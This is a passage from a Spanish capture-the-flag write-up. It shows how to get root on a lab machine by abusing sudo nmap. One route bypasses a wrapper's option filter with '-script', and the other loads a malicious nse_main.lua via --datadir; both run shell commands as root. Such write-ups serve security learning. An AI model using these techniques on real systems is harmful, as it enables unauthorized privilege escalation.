    if [[ "$*" == *"$option"* ]]; then
        echo "${RESTRICTED_OPTIONS[$option]}"
        exit 1
    fi
done

# Execute the original nmap binary with the provided arguments
exec /usr/bin/nmap.original "$@"
```

Este script cubre todas las formas de escalar privilegios con `nmap` que se contemplan en GTFOBins, pero tampoco ha pensado en todo.

Efectivamente nos restringe el parámetro `--script`.
```console
zabbix@unrested:/home$ sudo /usr/bin/nmap --script
Script mode is disabled for security reasons.
```

Pero hay otra forma de establecer el parámetro de `script` en `nmap`, y es utilizando simplemente un guion en vez de dos.
```console
zabbix@unrested:/home$ sudo /usr/bin/nmap -script
/usr/bin/nmap.original: option '-script' requires an argument
See the output of nmap -h for a summary of options.
```

Supongo que el creador, a la hora de hacer la máquina se metió a GTFOBins y filtró todos los parámetros que salían, pero bueno, por esto es bueno tener secretos a veces.

Entonces ahora, creamos el script malicioso para escalar privilegios.

```console
zabbix@unrested:/home$ TF=$(mktemp)
zabbix@unrested:/home$ echo 'os.execute("/bin/sh")' > $TF
```

Ahora lo ejecutamos con `nmap`
```console
zabbix@unrested:/home$ sudo /usr/bin/nmap -script=$TF
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-06 17:34 UTC
NSE: Warning: Loading '/tmp/tmp.awY041aB8j' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer las flags de `matthew` y de `root`
```console
root@unrested:/home/matthew# cat user.txt
a0c7fd4d78e1...
root@unrested:/home/matthew# cat /root/root.txt
3f592d616fec...
```

¡Y ya estaría!

# Intended Privilege Escalation (Abusing `--datadir` parameter)
La forma intencionada para escalar privilegios en esta máquina, es utilizar el parámetro `--datadir` que permite especificar donde se encuentran los scripts de `nmap`, que tiene sentido, ya que en principio no se nos deja ejecutar un script en especifico, pero se nos deja utilizar el parámetro `-sCV` que recordemos que ejecuta una serie de scripts de reconocimiento entonces si pudiéramos reemplazar alguno de estos scripts por uno personalizado malicioso, podríamos ejecutar un comando a nivel de sistema.

Sabemos que los scripts de `nmap` utiliza un lenguaje que utiliza un interprete de lua, por lo cual podemos buscar cual es el archivo que se ejecuta al hacer un escaneo con el parámetro `-sC`, una búsqueda en Google revela que este archivo se llama `nse_main.lua`

Podemos buscar donde se encuentra este archivo.
```console
zabbix@unrested:/$ find / -type f -name nse_main.lua 2>/dev/null
/usr/share/nmap/nse_main.lua
```


Entonces, vamos a crear un archivo `nse_main.lua` en la ruta `/tmp` para ejecutar un comando a nivel de sistema.
```console
zabbix@unrested:/tmp$ echo "os.execute('/bin/bash -p')" > nse_main.lua
```

Entonces, si ahora utilizamos el parámetro `--datadir`, podemos cambiar el path para en vez de buscar el script `nse_main.lua` en `/usr/share/nmap`, lo busque en `/tmp` y se cargue nuestro script malicioso.
```console
zabbix@unrested:/tmp$ sudo /usr/bin/nmap --datadir=/tmp 127.0.0.1 -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-06 17:52 UTC
root@unrested:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Happy Hacking! 🚀
